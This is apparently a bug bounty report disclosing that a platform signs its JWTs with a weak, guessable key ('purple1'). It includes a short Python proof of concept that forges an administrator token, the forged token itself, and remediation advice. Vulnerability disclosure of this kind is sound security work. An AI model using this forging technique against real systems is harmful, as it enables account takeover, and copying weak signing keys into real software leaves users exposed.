 # Description

During a security assessment on your platform, I identified a critical vulnerability that allows for account takeover. The signing key for JWTs (JSON Web Tokens) is insecure and too weak, enabling an attacker to recover it and generate valid JWTs, which allows them to become an administrator.

# Exploitation

To exploit this vulnerability, a valid JWT is required. Using a tool like `jwt_tool`, it is possible to modify this JWT and re-sign it with the key of our choice. Here, the key is "purple1". By changing our cookie in the browser, we can then become an administrator.

# PoC

Here is the content of a JWT for a regular user (which can be created).

![Normal User JWT](YWH-R303909-normal-user-jwt.png)

We can then forge a new token using a small Python script:
```python
#!/usr/bin/python

import jwt

SECRET_KEY = 'purple1'

data = {
    "token_type": "access",
    "user_id": 1
}

token = jwt.encode(data, SECRET_KEY, algorithm='HS256')
print(token)
```

This gives us the following token:
```bash
$ python3 poc_jwt.py 
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0b2tlbl90eXBlIjoiYWNjZXNzIiwidXNlcl9pZCI6MX0.YOa_bec4QY8jNmzaadpMA6H_eeFExYx3mwvazbwyCmU
```

By replacing the cookie, we observe that we indeed become an administrator.

![Admin JWT](YWH-R303912-jwt-admin.png)

# Risk

The main risk is that an attacker can take over any account, including administrative accounts, leading to a complete compromise of the application’s security. This can result in unauthorized data access, data manipulation, and potential further exploitation.

# Remediation

- Ensure that the signing key is strong (at least 16 to 32 characters) and not easily guessable.
- Consider using more secure signing algorithms such as RS256 or RS512.

# References

- [JWT PortSwigger](https://portswigger.net/web-security/jwt)

# Author
ESNA-ESNArcotrafiquants